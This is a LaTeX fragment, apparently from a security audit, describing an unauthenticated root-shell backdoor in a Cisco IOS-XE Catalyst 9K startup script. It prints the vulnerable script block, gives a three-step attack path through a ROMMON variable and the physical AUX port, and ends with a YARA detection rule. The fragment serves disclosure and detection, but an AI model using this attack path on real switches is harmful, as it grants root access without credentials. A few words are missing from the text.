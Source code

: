 \documentclass[11pt,a4paper]{article}
\begin{document}
\subsubsection{Technical Evidence}

The complete trigger block from .

\begin{pocbox}{Confirmed via Static Analysis of IOS-XE 17.18.04 bigbang/etc/auxinit.sh}
\begin{lstlisting}[style=bash]
if [[ "${ROMMON_SR_INIT_SHELL:-}" == *"aux_do_system_shell"* ]]; then
    export HOME=/root
    cd $HOME
    /bin/bash -l    # no authentication; root shell on AUX port
fi

# Attack path:
# 1. ROMMON> set ROMMON_SR_INIT_SHELL=aux_do_system_shell
# 2. ROMMON> boot
# 3. Connect to physical AUX port (RJ-45 serial, all Cat9K)
# => Root bash shell, no credential prompt.
\end{lstlisting}
\end{pocbox}

\subsubsection{Impact}

\begin{itemize}[nosep]
  \item The delivered shell is  as root. No credential prompt,
    no PAM invocation, no IOS-XE\@ AAA check.
  \item The backdoor activates before IOS-XE\@ authentication services start and
    survives any AAA reconfiguration applied after the ROMMON variable is set.
  \item The glob match (\texttt{*aux\_do\_system\_shell*}) accepts any string
    containing the trigger phrase, including composite values.
\end{itemize}

\subsubsection{Detection: YARA Rule}

\begin{lstlisting}[style=yara]
rule CAT9K_F13_Auxinit_Shell_Glob_Backdoor {
    meta:
        description = "auxinit.sh ROMMON glob delivers unauthenticated AUX root shell"
        id = "CAT9K-F13"
        severity = "Medium"
    strings:
        $var     = "ROMMON_SR_INIT_SHELL" ascii
        $trigger = "aux_do_system_shell" ascii
        $shell   = "/bin/bash -l" ascii
    condition:
        all of them
}
\end{lstlisting}
\end{document}
